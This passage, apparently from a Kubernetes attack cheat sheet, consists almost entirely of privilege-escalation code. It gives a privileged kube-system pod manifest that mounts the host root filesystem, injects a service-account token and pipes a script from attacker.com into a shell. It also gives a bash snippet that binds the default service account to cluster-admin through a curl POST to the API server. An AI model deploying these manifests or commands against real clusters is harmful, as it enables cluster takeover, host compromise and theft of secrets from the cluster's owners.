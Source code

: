 ### Privilege Escalation Techniques

#### Pod Creation for Privilege Escalation
```yaml
# Privileged pod with host access
apiVersion: v1
kind: Pod
metadata:
  name: priv-escalation
  namespace: kube-system
spec:
  hostNetwork: true
  hostPID: true
  containers:
  - name: escalate
    image: alpine:latest
    command: ["/bin/sh"]
    args: ["-c", "apk add curl && curl -k https://attacker.com/collect-secrets.sh | sh"]
    securityContext:
      privileged: true
      runAsUser: 0
    volumeMounts:
    - name: host-root
      mountPath: /host
    env:
    - name: TOKEN
      valueFrom:
        secretKeyRef:
          name: default-token-xyz
          key: token
  volumes:
  - name: host-root
    hostPath:
      path: /
  serviceAccountName: admin-user
```

#### RoleBinding Manipulation
```bash
# Create malicious rolebinding
cat > malicious-binding.json << EOF
{
  "apiVersion": "rbac.authorization.k8s.io/v1",
  "kind": "ClusterRoleBinding",
  "metadata": {
    "name": "escalated-binding"
  },
  "roleRef": {
    "apiGroup": "rbac.authorization.k8s.io",
    "kind": "ClusterRole",
    "name": "cluster-admin"
  },
  "subjects": [{
    "kind": "ServiceAccount",
    "name": "default",
    "namespace": "default"
  }]
}
EOF

curl -sk -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  $APISERVER/apis/rbac.authorization.k8s.io/v1/clusterrolebindings \
  -X POST -d @malicious-binding.json
```